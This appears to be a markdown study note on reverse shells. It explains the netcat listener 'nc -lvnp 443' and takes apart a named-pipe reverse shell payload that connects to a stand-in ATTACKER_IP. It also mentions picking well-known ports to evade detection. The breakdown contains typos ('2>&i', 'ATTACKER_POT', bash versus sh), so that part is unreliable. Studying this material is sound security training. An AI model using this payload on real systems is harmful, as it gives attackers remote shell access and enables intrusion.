 
### Reverse Shells
----------
Referred to as a `connect back shell`. 
- One of the most popular techniques for `gaining access to a system in cyberattacks`.
- Initiate from the target system to the attacker's machine
- Helps `avoid detection from network firewalls and other security appliances.`


#### How do they work?
---------
A reverse shell will connect back to the attacker's machine.
- Will be waiting for a connection.
- Use netcat to listen to a connection using 
- `nc -lvnp 443`

**What are these arguments?**
- `l` - indicates to listen / wait for a connection
- `-v` - enables verbose mode
- `-n` prevents connections from using DNS for lookup (will not resolve any hostname it will use an IP address)
- -`p` indicates the port that will be used to wait for the connection

**Note:** 
- Any port can be used to wait for a connection.
- Attackers / Pentesters tend to use known ports.

**Why do they use well known ports?**
- To blend in with legitimate traffic.


### Gaining Reverse Shell Access
--------------
**Once the listener is set**, `attacker should execute what is known as a reverse shell payload.`
- Usually abuses a vulnerability or unauthorized access granted by the attacker
- Executes a command that will expose the shell through the network.
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


#### Example: Pipe Reverse Shell
------------------------
`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f`


- `rm -f /tmp/f`: Removes any existing pipe file located at `/tmp/f/`
	- Ensures the script can create a new named pipe without conflicts

- `mkfifo /tmp/f`: Creates a named pipe (FIFO) at `/tmp/f/`.
	- Named piped allow for two-way communication `between processes`.
	- In this case, acts as a channel for input / output

- `cat /tmp/f` : Reads data from the named pipe, waits for input that can be sent through the pipe

- `| bash -i 2>&i`: The output of cat is piped to a shell instance (bash -i) 
	- Allows the attacker to execute commands interactively
	- `2>&i` redirects standard error to standard output, ensuring that error messages are seen by the attacker

- `| nc ATTACKER_IP ATTACKER_POT >/tmp/f/` - Pipes the shell's output through NC to the attacker IP address on the ATTACKER port
- `>/tmp/f/` - Final part sends the output of the commands back into the named pipe, allowing for bi directional communication

**Note:** This payload can expose the shell bash through the network to the desired listener.

